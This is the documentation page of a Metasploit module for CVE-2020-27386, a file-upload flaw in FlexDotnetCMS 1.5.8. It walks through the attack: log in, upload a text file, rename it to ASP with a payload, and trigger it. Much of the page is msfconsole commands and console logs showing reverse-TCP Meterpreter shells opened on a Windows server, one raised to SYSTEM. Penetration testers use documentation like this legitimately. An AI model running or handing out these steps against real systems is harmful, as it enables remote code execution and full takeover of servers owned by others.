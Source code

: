 ## Vulnerable Application
This module exploits an arbitrary file upload vulnerability (CVE-2020-27386) in FlexDotnetCMS v1.5.8 and prior
in order to execute arbitrary commands with elevated privileges.

The module first tries to obtain various tokens required for authentication from `/login`.
Next, the module tries to authenticate via an HTTP POST request to the same destination followed by an HTTP GET request to `/Admin`.
If authentication is successful, the module uploads a TXT file containing a random string via an HTTP POST request to
`/Scripts/tinyfilemanager.net/dialog.aspx`.
The module then loads the uploaded TXT file in the file editor in order to obtain tokens necessary for renaming the TXT file.
It then tries to rename the TXT file to an ASP file via an HTTP POST request to `/Admin/Views/PageHandlers/FileEditor/Default.aspx`.
If this succeeds, the target is vulnerable and the ASP file is generated as a copy of the TXT file, which remains on the server.
Next, the module sends another request to the file editor to rename the TXT file to an ASP file, this time adding the payload.
The module will execute the payload via a simple HTTP GET request to `/media/uploads/asp_payload`.
Finally, the module will try to delete both the uploaded TXT file and the ASP copy from the target.

Valid credentials for a FlexDotnetCMS user with permissions to use the FileManager are required.
This attack will normally result in remote code execution with administrator privileges, because the attacker will inherit the privileges
of the IIS/IIS Express process, which must run with elevated privileges if configured to allow remote connections.
This module has been successfully tested against FlexDotnetCMS v1.5.8 running on Windows Server 2012.

Vulnerable software for testing is available on GitHub [here](https://github.com/MacdonaldRobinson/FlexDotnetCMS/releases).
Detailed installation instructions are available
[here](https://github.com/MacdonaldRobinson/FlexDotnetCMS/raw/master/WebApplication/Admin/media/docs/FlexDotnetCMSGuide.docx).
As the instructions mention, FlexDotnetCMS requires the following dependencies:
- .NET Framework 4.5.2
- Visual Studio 2015 (Free Community Edition works)
- MS SQL Server (Express) 2012 +
- IIS (Express) 8 +

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/FlexDotnetCMS_upload_exec`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the FlexDotnetCMS account]`
6. Do: `set PASSWORD [password for the FlexDotnetCMS account]`
7. Do: `set target [target]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `exploit`

## Options
### PASSWORD
The password for the FlexDotnetCMS account to authenticate with.
### TARGETURI
The base path to FlexDotnetCMS. The default value is `/`.
### USERNAME
The username for the FlexDotnetCMS account to authenticate with. The default value is `admin`.

## Targets
```
Id  Name
--  ----
0   Windows (x86)
1   Windows (x64)
```

## Scenarios
### FlexDotnetCMS v1.5.8 running on Windows Server 2012 - Windows x86 target
```
msf6 exploit(windows/http/flexdotnetcms_upload_exec) > show options

Module options (exploit/windows/http/flexdotnetcms_upload_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   Password1        yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.230    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      1113             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to FlexDotnetCMS
   USERNAME   admin            yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.128    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows (x86)


msf6 exploit(windows/http/flexdotnetcms_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Successfully authenticated to FlexDotnetCMS
[*] FlexDotnetCMS is installed on the target at C:/Users/Administrator/Desktop/FlexDotnetCMS-1.5.8/
[*] Uploaded test file wxoI7s6knq.txt. Attempting to rename the file to wxoI7s6knq.asp...
[+] Successfully renamed test file wxoI7s6knq.txt to wxoI7s6knq.asp (this is a copy of wxoI7s6knq.txt, which remains on the server)
[+] The target is vulnerable. Target is FlexDotnetCMS v1.5.8 or lower.
[*] Renaming wxoI7s6knq.txt to wxoI7s6knq.asp again, this time adding the payload
[+] Successfully added the ASP payload to wxoI7s6knq.asp
[*] Executing the payload...
[*] Sending stage (175174 bytes) to 192.168.1.230
[*] Meterpreter session 9 opened (192.168.1.128:4444 -> 192.168.1.230:62058) at 2020-11-02 11:10:41 -0500
[+] Successfully deleted wxoI7s6knq.txt
[+] Successfully deleted wxoI7s6knq.asp

meterpreter > getuid
Server username: WIN-S623VF4MJDR\Administrator
meterpreter > getsystem 
ge...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
tmeterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
### FlexDotnetCMS v1.5.8 running on Windows Server 2012 - Windows x64 target
```
msf6 exploit(windows/http/flexdotnetcms_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Successfully authenticated to FlexDotnetCMS
[*] FlexDotnetCMS is installed on the target at C:/Users/Administrator/Desktop/FlexDotnetCMS-1.5.8/
[*] Uploaded test file XLz3OTusi.txt. Attempting to rename the file to XLz3OTusi.asp...
[+] Successfully renamed test file XLz3OTusi.txt to XLz3OTusi.asp (this is a copy of XLz3OTusi.txt, which remains on the server)
[+] The target is vulnerable. Target is FlexDotnetCMS v1.5.8 or lower.
[*] Renaming XLz3OTusi.txt to XLz3OTusi.asp again, this time adding the payload
[+] Successfully added the ASP payload to XLz3OTusi.asp
[*] Executing the payload...
[*] Sending stage (200262 bytes) to 192.168.1.230
[*] Meterpreter session 10 opened (192.168.1.128:4444 -> 192.168.1.230:62059) at 2020-11-02 11:10:55 -0500
[+] Successfully deleted XLz3OTusi.txt
[+] Successfully deleted XLz3OTusi.asp

meterpreter > getuid
Server username: WIN-S623VF4MJDR\Administrator
meterpreter >
```
